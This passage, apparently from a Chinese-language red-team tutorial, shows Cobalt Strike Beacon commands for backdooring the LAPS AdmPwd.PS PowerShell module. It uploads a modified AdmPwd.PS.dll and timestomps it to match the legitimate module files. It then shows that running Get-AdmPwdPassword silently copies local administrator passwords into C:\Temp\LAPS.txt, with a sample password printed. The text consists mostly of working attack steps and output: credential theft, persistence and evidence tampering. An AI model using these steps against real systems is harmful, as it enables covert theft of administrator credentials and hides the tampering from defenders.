 WriteObject(pi);
```

编译并上传为文件```AdmPwd.PS.dll```
```
beacon> upload C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll
```

使用 Beacon 的```timestomp```命令“克隆”```AdmPwd.PS.psd1```的时间戳并将其应用于AdmPwd.PS.dll

```
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 15kb     fil     08/23/2016 14:40:58   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

运行```Get-AdmPwdPassword```然后检查```C:\Temp```,已经生成我们的后门密码副本
```
beacon> ls C:\Temp

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 24b      fil     03/16/2021 18:48:13   LAPS.txt

beacon> shell type C:\Temp\LAPS.txt
WKSTN-2 : P0OPwa4R64AkbJ
```